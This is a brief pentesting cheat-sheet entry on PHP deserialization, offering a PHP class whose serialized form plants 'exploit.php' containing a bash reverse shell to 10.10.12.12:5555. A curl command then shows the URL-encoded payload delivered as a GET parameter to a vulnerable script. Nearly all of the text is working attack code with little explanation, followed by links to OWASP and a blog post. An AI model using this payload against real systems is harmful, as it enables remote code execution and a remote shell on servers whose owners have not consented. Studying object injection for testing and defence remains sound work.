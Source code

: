 # PHP deserialization



```text
class Example2 {
  public $user_file = 'exploit.php';
  public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.12.12/5555 0>&1\'"); ?>';
}
print urlencode(serialize(new Example2));
```

Running above snippet in interactive php shell `php -a` would generate payload \(URL encoded variable\) that can be passed as GET variable.

e.g: 

```text
curl -i http://my.rce.domain/vuln.php?args=O%3A14abovegeneratedVaRiAbLe
```

More about [PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection), [PHP Deserialization](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a).



